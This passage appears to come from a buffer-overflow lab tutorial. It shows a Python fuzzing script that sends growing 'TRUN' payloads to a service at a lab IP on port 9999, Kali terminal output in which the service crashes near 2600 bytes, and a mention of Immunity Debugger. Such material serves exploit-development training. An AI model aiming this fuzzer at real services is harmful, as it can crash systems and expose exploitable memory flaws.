

Python Code :
#!/usr/bin/python
import sys,socket
from time import sleep
buffer = 'A'*100
while True:
try:
s = socket.socket(socket.AF_INET , socket.SOCK_STREAM)
s.connect(('192.168.205.135',9999))
s.send(('TRUN /.:/' + buffer))
s.close()
sleep(1)
buffer = buffer + 'A'*100
except:
print "Fuzzing crashed at %s bytes" % str(len(buffer))
sys.exit()
Kali :
──(root㉿kali)-[/home/kali]
└─# ls
amass_dom_httprobe.txt Desktop Downloads go Music pimpmykali stats.spk trun.spk
core Documents fuzz_1.py home_pc_nmap.txt Pictures Public Templates Videos
┌──(root㉿kali)-[/home/kali]
└─# chmod +x fuzz_1.py
┌──(root㉿kali)-[/home/kali]
└─# ./fuzz_1.py
^CFuzzing crashed at 2600 bytes
As we can see the buffer is crased somewhere around 2600 bytes give or take.
And we have to kill the program ourselves (i.e. Press Ctrl+C )
Windows : Immunity
